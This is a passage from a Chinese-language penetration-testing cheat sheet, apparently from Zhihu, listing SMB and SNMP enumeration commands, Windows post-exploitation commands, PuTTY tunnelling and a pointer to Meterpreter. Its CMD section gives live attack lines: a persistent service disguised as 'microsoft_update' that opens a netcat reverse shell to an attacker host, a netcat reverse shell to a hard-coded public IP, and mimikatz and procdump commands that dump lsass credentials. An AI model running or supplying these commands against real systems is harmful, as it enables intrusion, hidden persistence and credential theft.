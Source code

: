 拓展学习资料： [https:// blog.csdn.net/yexiangcs dn/article/details/82867469](https://link.zhihu.com/?target=https%3A//blog.csdn.net/yexiangcsdn/article/details/82867469)

> 
<pre>nmblookup -A target     
smbclient //MOUNT/share -I target -N
rpcclient -U "" target
enum4linux target</pre>


注：smbclient命令属于samba套件。参数-I：指定服务器的IP地址。-N：不用询问密码。参数-u：指定用户名称

### 11.枚举SNMP 

> 
<pre>snmpget -v 1 -c public IP
snmpwalk -v 1 -c public IP
snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP</pre>


### 12.一些实用的CMD命令 

> 
<pre>net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp 32位系统
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp 64位系统</pre>


### 13.PuTTY 连接隧道

下载地址： [https://www. chiark.greenend.org.uk/ ~sgtatham/putty/](https://link.zhihu.com/?target=https%3A//www.chiark.greenend.org.uk/~sgtatham/putty/)

使用手册： [https:// the.earth.li/~sgtatham/ putty/0.73/htmldoc/](https://link.zhihu.com/?target=https%3A//the.earth.li/~sgtatham/putty/0.73/htmldoc/)

> 
<pre>// 转发远程端口到目标地址
plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP</pre>


### 14.Meterpreter 端口转发

Metasploit中的Meterpreter模块在后渗透阶段具有强大的攻击力，本文主要整理了meterpreter的常用命令、脚本及使用方式。包含信息收集、提权、注册表操作、令牌操纵、哈希利用、后门植入等。

拓展学习《Meterpreter命令详解》： [https://www. cnblogs.com/backlion/p/ 9484949.html](https://link.zhihu.com/?target=https%3A//www.cnblogs.com/backlion/p/9484949.html)
